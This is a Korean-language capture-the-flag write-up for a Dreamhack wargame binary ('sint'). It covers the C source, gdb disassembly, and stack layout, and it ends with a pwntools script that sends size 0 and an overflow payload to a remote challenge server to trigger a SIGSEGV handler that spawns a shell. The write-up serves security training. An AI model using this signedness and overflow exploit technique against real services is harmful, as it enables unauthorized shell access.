 # 목차
1. 문제 설명

    1.1. Description

    1.2. Environment

2. 문제 파일 분석

    2.1. 코드 분석

    2.2. 실행 파일 분석

3. 문제 풀이 코드

## 1. 문제 설명

### 1.1. Description

이 문제는 서버에서 작동하고 있는 서비스(out_of_bound)의 바이너리와 소스 코드가 주어집니다.

프로그램의 취약점을 찾고 익스플로잇해 셸을 획득하세요.

"flag" 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.

플래그의 형식은 DH{...} 입니다.

### 1.2. Environment

Ubuntu 16.04

Arch:     i386-32-little

RELRO:    Partial RELRO

Stack:    No canary found

NX:       NX enabled

PIE:      No PIE (0x8048000)

## 2. 문제 파일 분석

### 2.1. 코드 분석

`cat sint.c`를 통해 코드를 확인
```
// sint.c //

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```
- 주요 기능
    - `main`함수가 실행
    - 스택 메모리에 `buf`변수명의 `256byte`의 공간을 부여
    - `scanf`함수를 통해 `size`를 입력 받음
    - 만약 `size`가 256 초과 또는 0 미만이면 종료
    - `read`함수를 통해 `buf`를 입력 받음

    - `SIGSEGV`시그널이 발생하면 `get_shell`함수가 호출됨

- 주의
    - 입력된 `size`의 값을 검증하고 있지만 size의 값이 0이면 검증하지 않음
    - `size`의 값이 0이면 `read`함수가 읽는 버퍼의 크기가 -1이 되어 오류가 발생
    - `SIGSEGV` 핸들러로 설정된 `get_shell` 함수는 세그멘테이션 오류가 발생할 때 시스템 셸을 호출할 수 있어 악의적인 활용 가능

- 발생 가능한 취약점
    - **시그널 취약점 (Signal Handling Vulnerability)**

위의 과정을 통해 **Out-of-Bounds Access**를 발생시킬 수 있음을 확인

즉, `SIGSEGV` 시그널 핸들러를 통해 악의적인 접근이 가능

### 2.2. 실행 파일 분석

`gdb ./sint`를 통해 GNU 디버거를 실행

`disass main`를 통해 `main`함수의 어셈블리 확인
```
Dump of assembler code for function main:
   0x0804866c <+0>:     push   ebp
   0x0804866d <+1>:     mov    ebp,esp
   0x0804866f <+3>:     sub    esp,0x104
   0x08048675 <+9>:     call   0x8048612 <initialize>
   0x0804867a <+14>:    push   0x8048659
   0x0804867f <+19>:    push   0xb
   0x08048681 <+21>:    call   0x8048470 <signal@plt>
   0x08048686 <+26>:    add    esp,0x8
   0x08048689 <+29>:    push   0x80487a1
   0x0804868e <+34>:    call   0x8048460 <printf@plt>
   0x08048693 <+39>:    add    esp,0x4
   0x08048696 <+42>:    lea    eax,[ebp-0x104]
   0x0804869c <+48>:    push   eax
   0x0804869d <+49>:    push   0x80487a8
   0x080486a2 <+54>:    call   0x80484e0 <__isoc99_scanf@plt>
   0x080486a7 <+59>:    add    esp,0x8
   0x080486aa <+62>:    mov    eax,DWORD PTR [ebp-0x104]
   0x080486b0 <+68>:    cmp    eax,0x100
   0x080486b5 <+73>:    jg     0x80486c1 <main+85>
   0x080486b7 <+75>:    mov    eax,DWORD PTR [ebp-0x104]
   0x080486bd <+81>:    test   eax,eax
   0x080486bf <+83>:    jns    0x80486d5 <main+105>
   0x080486c1 <+85>:    push   0x80487ab
   0x080486c6 <+90>:    call   0x8048490 <puts@plt>
   0x080486cb <+95>:    add    esp,0x4
   0x080486ce <+98>:    push   0x0
   0x080486d0 <+100>:   call   0x80484b0 <exit@plt>
   0x080486d5 <+105>:   push   0x80487bc
   0x080486da <+110>:   call   0x8048460 <printf@plt>
   0x080486df <+115>:   add    esp,0x4
   0x080486e2 <+118>:   mov    eax,DWORD PTR [ebp-0x104]
   0x080486e8 <+124>:   sub    eax,0x1
   0x080486eb <+127>:   push   eax
   0x080486ec <+128>:   lea    eax,[ebp-0x100]
   0x080486f2 <+134>:   push   eax
   0x080486f3 <+135>:   push   0x0
   0x080486f5 <+137>:   call   0x8048450 <read@plt>
   0x080486fa <+142>:   add    esp,0xc
   0x080486fd <+145>:   mov    eax,0x0
   0x08048702 <+150>:   leave
   0x08048703 <+151>:   ret
End of assembler dump.
```
```
0x080486e2 <+118>:   mov    eax,DWORD PTR [ebp-0x104]
0x080486e8 <+124>:   sub    eax,0x1
0x080486eb <+127>:   push   eax
0x080486ec <+128>:   lea    eax,[ebp-0x100]
0x080486f2 <+134>:   push   eax
0x080486f3 <+135>:   push   0x0
0x080486f5 <+137>:   call   0x8048450 <read@plt>

-- 스택에 쌓인 모습 --

높은 메모리 주소
+---------------+ <-- read함수 호출 시점의 esp
|      ...      |     (Stack Pointer: 스택 포인터)
+---------------+
|      ret      | <-- read함수 호출 후 반환될 주소
|    4 byte     |     (Return addr)
+---------------+
|      sfp      | <-- 이전 ebp의 값을 가짐
|    4 byte     |     (Saved EBP: 이전 베이스 포인터)
+---------------+
|      buf      | <-- read함수가 읽는 buf 크기
|    256 byte   |
+---------------+ <-- read함수 시작 주소 [ebp - 0x100]
|      ...      |
+---------------+ <-- size가 있는 주소[ebp - 0x104]
낮은 메모리 주소
```

## 3. 문제 풀이 코드
```
from pwn import *

p = remote("host3.dreamhack.games", 8744)

payload = b'\x90'*256 + b'\x90'*4 + b'\x00'*4

p.sendline(b'0')
p.sendline(payload)

p.interactive()
```
`p.sendline(b'0')`: `size`의 크기를 0으로 설정

`b'\x90'*256`: 버퍼에 아무 문자로 다 채움

`b'\x90'*4`: sfp에 아무 문자로 다 채움

`b'\x00'*4`: `read`함수의 `ret`의 주소에 오류를 발생하는 더미데이터 입력

쉘이 실행됨을 확인

- 쉘 실행 이후
    `find -name "flag"`를 입력하여 플래그 파일을 검색
    
    `./flag`

    `cat ./flag`를 입력